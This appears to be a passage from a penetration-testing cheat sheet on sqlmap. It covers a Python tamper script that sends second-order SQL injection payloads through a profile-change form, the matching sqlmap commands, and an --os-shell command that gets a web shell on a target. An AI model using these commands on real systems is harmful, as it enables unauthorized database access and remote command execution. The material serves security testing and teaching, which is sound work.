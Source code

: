 ### Method 2. Tampering

If we could not achieve with the method 1, it’s worth to create a tamper function.  
For example, create **`tamper.py`** with the content below.

```python
#!/usr/bin/env python
import re
import requests
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def change_profile(payload):
    proxies = {'http':'http://127.0.0.1:8080'}
    cookies = {"ExampleToken": "abcdef...xyz"}

    params = {"username":"tester", "email":payload}
    url = "https://example.com/profile/change"
    req = requests.post(url, data=params, cookies=cookies, verify=False, allow_redirects=True, proxies=proxies)
		# If we need to send json param, use `json` attribute instead of `data`.

    url = "https://example.com/dashboard"
    req = requests.get(url, cookies=cookies, verify=False, allow_redirects=True, proxies=proxies)

def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    change_profile(payload)
    return payload
```

By setting the proxy to **`http://127.0.0.1:8080`**, we can see the requests and the responses in BurpSuite.  
After creating, run sqlmap as below.

```bash
# Create this file in current directory to avoid error when running sqlmap with tamper
touch __init__.py

sqlmap --tamper tamper.py -r req1.txt -p email --second-req req2.txt --proxy http://127.0.0.1:8080
```

<br /><br />

## Web Shell

Add option "--os-shell" to interact with web shell.

```sh
sqlmap -u "http://<target-ip>" --cookie="value=*" --os-shell
```
